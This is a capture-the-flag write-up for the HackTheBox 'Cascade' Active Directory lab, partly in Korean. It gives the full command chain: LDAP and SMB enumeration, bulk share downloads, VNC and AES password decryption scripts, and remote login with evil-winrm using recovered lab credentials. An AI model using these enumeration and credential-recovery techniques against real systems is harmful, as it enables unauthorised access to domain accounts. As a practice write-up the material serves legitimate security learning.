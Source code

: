```yaml
---
layout: post
title: HackTheBox Cascade
subtitle: Acitive Directory 101 Cascade Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - AD
  - OSCP
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Cascade/e62731204ae8e75e2ba8c8157bcd0580_MD5.jpeg)

## Target - 10.129.192.253
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.192.253 -oN Cascade_allport
```
![](/assets/images/posts/2025-03-04-Cascade/d068db01853b01b1190c5f0893e7b02d_MD5.jpeg)
### LDAP Enumeration Using Ldapsearch
```bash
# https://www.geeksforgeeks.org/ldap-enumeration/
# username 찾기
crackmapexec smb 10.129.192.253 -u '' -p '' --users

# 위에서 찾은 username으로 Ldapsearch
ldapsearch -x -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w '' | grep -i r.thompson
ldapsearch -x sAMAccountName=r.thompson -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w ''

# base64 decoding
rY4n5eva
```

![](/assets/images/posts/2025-03-04-Cascade/da2a3a579a986c400ebd047f5b8475ca_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/a6d72c86ee2c0b9b205f1195837f5c8b_MD5.jpeg)
### SMB Enum (r.thompson Auth)
```bash
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --shares
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --spider Data --regex .

# 싹다 가져오기
smbclient \\\\10.129.192.253\\Data -U 'r.thompson' --password='rY4n5eva'
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```
![](/assets/images/posts/2025-03-04-Cascade/bbf9d5955c0dc34aa49627a6d170bfbd_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/d65a2eb43a96c57e046d458ac7dc5716_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/c063e77df0b824b11bddc95e5b68fe55_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/8ee32c59ed3ec56f3938512a9ea94f3b_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/1689b05737a050bda11825906eba2c92_MD5.jpeg)

### VNC Decrypt
```bash
# https://github.com/billchaison/VNCDecrypt
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```
![](/assets/images/posts/2025-03-04-Cascade/802c943dd31ce351b2bb1497c97057b7_MD5.jpeg)

### evil-WinRM
```bash
evil-winrm -i 10.129.192.253 -u s.smith -p sT333ve2
```
![](/assets/images/posts/2025-03-04-Cascade/c62bd9b245ee6cf85329f44dcb910f1b_MD5.jpeg)
#### In Evil-WinRM
```bash
# https://activedirectorypro.com/get-aduser-examples/ 참고해서 해보기
Get-ADUser -identity s.smith -properties *
net user s.smith

# s.smith 로그인 시 실행되는 파일 찾기
dir C:\ -recurse -filter MapAuditDrive.vbs -ErrorAction SilentlyContinue
type C:\Windows\SYSVOL\sysvol\cascade.local\scripts\MapAuditDrive.vbs
type C:\Windows\SYSVOL\domain\scripts\MapAuditDrive.vbs
```

![](/assets/images/posts/2025-03-04-Cascade/4f2aa2c333a1674855e684e3995f3069_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/bdd8034515a299f96fba98278f6552b3_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/faab4f175aa18ad9e1a2ba1c12f52c6d_MD5.jpeg)

### SMB Enum (s.smith Auth)
```bash
# smb re-enum
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --shares
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --spider Audit$ --regex .

# 싹다 가져오기
smbclient \\\\10.129.192.253\\Audit$ -U 's.smith' --password='sT333ve2'
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *

# db 내용 보기 / ArkSvc : BQO5l5Kj9MdErXx6Q6AGOw==
cat RunAudit.bat
sqlitebrowser DB/Audit.db
file CascAudit.exe
```

![](/assets/images/posts/2025-03-04-Cascade/df502df7219d87e613d796e2f72e614b_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/9e2c997ddba01c1a6a941702ea16119b_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/23c44942133cbb507099c06f59d0d9f2_MD5.jpeg)
### AvaloniaILSpy
```bash
# 설치
wget https://packages.microsoft.com/config/ubuntu/19.10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update
sudo apt install apt-transport-https
sudo apt update
sudo apt install dotnet-sdk-8.0

sudo apt install mono-devel

git clone https://github.com/icsharpcode/AvaloniaILSpy.git
cd AvaloniaILSpy/
git submodule update --init --recursive

dotnet tool restore
dotnet cake

cd artifacts/linux-x64
./ILSpy
```
![](assets/images/posts/2025-03-04-Cascade/6c980fff9695c52e210688db1e17f2b8_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/1f796170193fca06adce2ff8174a5274_MD5.jpeg)![](assets/images/posts/2025-03-04-Cascade/e6138fbb7da00937f08330bc31148629_MD5.jpeg)
### AES Decrypt in Python
```Python
# Python version < 3.12
pip install pycrypto
# Python version >= 3.12
pip install pycryptodome

import base64
from Crypto.Cipher import AES

key = "c4scadek3y654321"
iv = "1tdyjCbY1Ix49842"
encrypt_pwd = "BQO5l5Kj9MdErXx6Q6AGOw=="
unpad = (lambda s: s[:-ord(s[len(s)-1:])])

def AES_decrypt(enc):
    enc = base64.b64decode(enc)
    cipher = AES.new(key.encode(), AES.MODE_CBC, iv.encode())
    dec = cipher.decrypt(enc)
    return unpad(dec).decode('utf-8')

decrypt = AES_decrypt(encrypt_pwd)

print(decrypt)
```